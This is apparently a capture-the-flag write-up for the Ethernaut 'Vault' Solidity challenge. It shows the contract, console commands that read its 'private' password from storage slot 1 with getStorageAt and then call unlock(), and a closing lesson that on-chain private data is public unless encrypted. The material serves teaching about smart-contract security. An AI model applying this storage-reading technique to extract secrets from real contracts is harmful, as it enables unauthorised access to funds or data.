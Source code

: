 # Hello Ethernaut

## Challenge Description

Unlock the vault to pass the level!

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

## Challenge Solution Walkthrough

In this challenge, the goal is to unlock a contract by accessing the `password` variable, even though it is marked as `private`. In Solidity, marking a variable as `private` does not prevent others from accessing its value using low-level functions like `getStorageAt()`.

To access the `password` variable, we can use the `web3.eth.getStorageAt()` function in the console. This function allows us to read the value stored at a specific storage slot in the contract's memory.

To retrieve the `password` variable, we run the following code in the console:

```javascript
> const password = await web3.eth.getStorageAt(contract.address, 1)
> password
< '0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
```

The resulting value is a hexadecimal string representing the `password`. We can then use this value to unlock the vault by calling the `unlock()` function with the obtained `password`:

```javascript
> await contract.unlock(password)
```

To verify that we have successfully unlocked the vault, we can check the value of the `locked()` function:

```javascript
> (await contract.locked()) == false
< true
```

If the returned value is `true`, it means we have successfully unlocked the vault.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
